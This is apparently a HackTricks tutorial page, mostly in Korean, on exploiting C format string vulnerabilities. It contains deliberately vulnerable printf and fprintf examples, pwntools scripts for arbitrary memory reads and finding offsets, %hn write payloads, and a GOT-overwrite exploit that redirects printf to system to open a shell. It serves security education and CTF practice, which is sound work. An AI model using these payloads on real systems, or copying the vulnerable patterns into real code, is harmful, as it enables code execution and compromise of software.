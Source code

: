 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

C에서 **`printf`**는 문자열을 **출력**하는 데 사용할 수 있는 함수입니다. 이 함수가 기대하는 **첫 번째 매개변수**는 **형식 지정자가 포함된 원시 텍스트**입니다. 이 원시 텍스트의 **형식 지정자**를 **대체**할 **값**이 기대되는 **다음 매개변수**입니다.

다른 취약한 함수로는 **`sprintf()`**와 **`fprintf()`**가 있습니다.

취약점은 **공격자 텍스트가 이 함수의 첫 번째 인수로 사용될 때** 발생합니다. 공격자는 **printf 형식** 문자열 기능을 악용하여 **특별한 입력**을 만들어 **읽을 수 있는/쓸 수 있는** 모든 주소에서 **데이터를 읽고 쓸 수** 있습니다. 이렇게 해서 **임의 코드를 실행**할 수 있습니다.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**예시:** 

* 취약한 예시:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 일반 사용:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 인수가 누락된 경우:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf 취약점:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **포인터 접근**

형식 **`%<n>$x`**에서 `n`은 숫자로, printf에게 스택에서 n번째 매개변수를 선택하도록 지시합니다. 따라서 printf를 사용하여 스택에서 4번째 매개변수를 읽고 싶다면 다음과 같이 할 수 있습니다:
```c
printf("%x %x %x %x")
```
그리고 첫 번째에서 네 번째 매개변수까지 읽을 수 있습니다.

또는 다음과 같이 할 수 있습니다:
```c
printf("%4$x")
```
and read directly the forth.

공격자가 `pr`**`intf` 매개변수를 제어한다는 점에 유의하세요. 이는 기본적으로** 그의 입력이 `printf`가 호출될 때 스택에 있을 것임을 의미하며, 이는 그가 스택에 특정 메모리 주소를 쓸 수 있음을 의미합니다.

{% hint style="danger" %}
이 입력을 제어하는 공격자는 **스택에 임의의 주소를 추가하고 `printf`가 이를 접근하게 만들 수 있습니다**. 다음 섹션에서는 이 동작을 사용하는 방법에 대해 설명합니다.
{% endhint %}

## **임의 읽기**

형식 지정자 **`%n$s`**를 사용하여 **`printf`**가 **n 위치**에 있는 **주소**를 가져오고 **문자열처럼 출력**할 수 있습니다(0x00이 발견될 때까지 출력). 따라서 바이너리의 기본 주소가 **`0x8048000`**이고, 사용자 입력이 스택의 4번째 위치에서 시작된다는 것을 알고 있다면, 다음과 같이 바이너리의 시작 부분을 출력할 수 있습니다:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
입력의 시작 부분에 0x8048000 주소를 넣을 수 없다는 점에 유의하세요. 문자열은 해당 주소의 끝에서 0x00으로 잘리기 때문입니다.
{% endhint %}

### 오프셋 찾기

입력의 오프셋을 찾기 위해 4 또는 8 바이트(`0x41414141`)를 보낸 다음 **`%1$x`**를 추가하고 **값을 증가시켜** `A's`를 검색할 수 있습니다.

<details>

<summary>브루트 포스 printf 오프셋</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### 얼마나 유용한가

임의 읽기는 다음과 같은 용도로 유용할 수 있습니다:

* **메모리에서** **바이너리**를 **덤프**하기
* **민감한** **정보**가 저장된 메모리의 특정 부분에 **접근하기** (예: 이 [**CTF 챌린지**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value)와 같이)

## **임의 쓰기**

포맷터 **`$<num>%n`**은 **지정된 주소**에 **쓰기 바이트 수**를 **기록**합니다. 공격자가 printf를 사용하여 원하는 만큼의 문자를 쓸 수 있다면, 그는 **`$<num>%n`**을 사용하여 임의의 주소에 임의의 숫자를 쓸 수 있게 됩니다.

다행히도, 숫자 9999를 쓰기 위해 입력에 9999개의 "A"를 추가할 필요는 없으며, 대신 포맷터 **`%.<num-write>%<num>$n`**을 사용하여 **`<num-write>`** 숫자를 **`num` 위치가 가리키는 주소**에 쓸 수 있습니다.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
그러나 일반적으로 `0x08049724`와 같은 주소를 쓰기 위해 (한 번에 쓰기에는 엄청난 숫자입니다), **`$hn`**이 **`$n`** 대신 사용됩니다. 이렇게 하면 **2바이트만 쓸 수 있습니다**. 따라서 이 작업은 주소의 가장 높은 2바이트와 가장 낮은 2바이트에 대해 각각 두 번 수행됩니다.

따라서 이 취약점은 **임의의 주소에 무엇이든 쓸 수 있게** 합니다.

이 예제에서 목표는 **나중에 호출될** **GOT** 테이블의 **함수**의 **주소**를 **덮어쓰는** 것입니다. 이는 다른 임의 쓰기를 악용하여 exec 기술을 사용할 수 있습니다:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

우리는 **사용자**로부터 **인수**를 **받는** **함수**를 **덮어쓰고**, 이를 **`system`** **함수**를 가리키게 할 것입니다.\
언급했듯이 주소를 쓰기 위해 일반적으로 2단계가 필요합니다: 먼저 주소의 2바이트를 쓰고, 그 다음에 나머지 2바이트를 씁니다. 이를 위해 **`$hn`**이 사용됩니다.

* **HOB**는 주소의 2개의 높은 바이트를 호출합니다.
* **LOB**는 주소의 2개의 낮은 바이트를 호출합니다.

그런 다음, 포맷 문자열이 작동하는 방식 때문에 **먼저 가장 작은** \[HOB, LOB]를 쓰고 그 다음에 다른 것을 써야 합니다.

HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools 템플릿

이러한 종류의 취약점을 위한 익스플로잇을 준비할 **템플릿**을 다음에서 찾을 수 있습니다:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

또는 [**여기**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)에서 이 기본 예제를 확인하세요:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

형식 문자열 취약점의 쓰기 작업을 악용하여 **스택의 주소에 쓰기** 및 **버퍼 오버플로우** 유형의 취약점을 악용할 수 있습니다.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 비트, no relro, no canary, nx, no pie, 스택에서 플래그를 누출하기 위한 형식 문자열의 기본 사용 (실행 흐름을 변경할 필요 없음)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 비트, relro, no canary, nx, no pie, win 함수로 `fflush` 주소를 덮어쓰는 형식 문자열 (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 비트, relro, no canary, nx, no pie, `.fini_array` 내의 main에 있는 주소를 쓰기 위한 형식 문자열 (흐름이 한 번 더 루프됨) 및 `strlen`을 가리키는 GOT 테이블의 `system` 주소를 쓰기. 흐름이 main으로 돌아가면, `strlen`이 사용자 입력과 함께 실행되고 `system`을 가리키면, 전달된 명령이 실행됩니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
